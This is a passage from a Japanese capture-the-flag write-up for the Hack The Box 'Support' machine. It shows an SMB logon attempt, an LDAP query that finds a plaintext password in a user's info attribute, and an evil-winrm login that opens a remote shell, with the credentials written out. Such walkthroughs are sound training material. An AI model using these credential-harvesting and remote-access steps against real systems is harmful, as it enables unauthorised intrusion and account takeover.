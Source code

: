 ```bash
SMB         10.129.230.181  445    DC               [-] support.htb\ford.victoria:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 

```


 LDAPSearch
- supportユーザーについて、LDAPSearchでも探してみる
- すると、infoの部分にパスワードらしき文字列「Ironside47pleasure40Watchful」が書かれている
```bash
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Support]
└─$ ldapsearch -x -H ldap://10.129.230.181 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(sAMAccountName=support)"
# extended LDIF
#
# LDAPv3
# base <DC=support,DC=htb> with scope subtree
# filter: (sAMAccountName=support)
# requesting: ALL
#

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
<SNIP>
```


WinRMで接続してみる
- アクセスできた
```sh
└─$ evil-winrm -i 10.129.230.181 -u support -p Ironside47pleasure40Watchful
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> ls

```

